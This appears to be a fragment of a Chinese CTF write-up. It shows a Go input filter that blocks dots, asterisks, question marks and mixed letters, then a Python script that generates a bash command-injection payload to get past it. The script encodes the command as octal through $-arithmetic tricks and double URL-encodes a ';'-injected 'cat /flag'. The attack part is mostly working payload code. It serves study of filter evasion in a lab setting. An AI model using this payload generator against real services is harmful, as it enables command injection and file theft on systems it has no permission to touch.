 ```go
func waf(c string) bool {
	var t int32
	t = 0
	blacklist := []string{".", "*", "?"}
	for _, s := range c {
		for _, b := range blacklist {
			if b == string(s) {
				return false
			}
		}
		if unicode.IsLetter(s) {
			if t == s {
				continue
			}
			if t == 0 {
				t = s
			} else {
				return false
			}
		}
	}

	return true
}

```

需要绕过`点号，星号和问号和字母`

利用师傅的脚本

```python
from urllib.parse import quote
n = dict()
n[0] = '0'
n[1] = '${##}'
n[2] = '$((${##}<<${##}))'
n[3] = '$(($((${##}<<${##}))#${##}${##}))'
n[4] = '$((${##}<<$((${##}<<${##}))))'
n[5] = '$(($((${##}<<${##}))#${##}0${##}))'
n[6] = '$(($((${##}<<${##}))#${##}${##}0))'
n[7] = '$(($((${##}<<${##}))#${##}${##}${##}))'

f=''

def str_to_oct(cmd):
    s = ""
    for t in cmd:
        o = ('%s' % (oct(ord(t))))[2:]
        s+='\\'+o
    return s

def build(cmd):
    payload = "$0<<<$0\<\<\<\$\\\'"
    s = str_to_oct(cmd).split('\\')
    for _ in s[1:]:
        payload+="\\\\"
        for i in _:
            payload+=n[int(i)]
    return payload+'\\\''

print(quote(quote("123;"+build("cat /flag"))))


```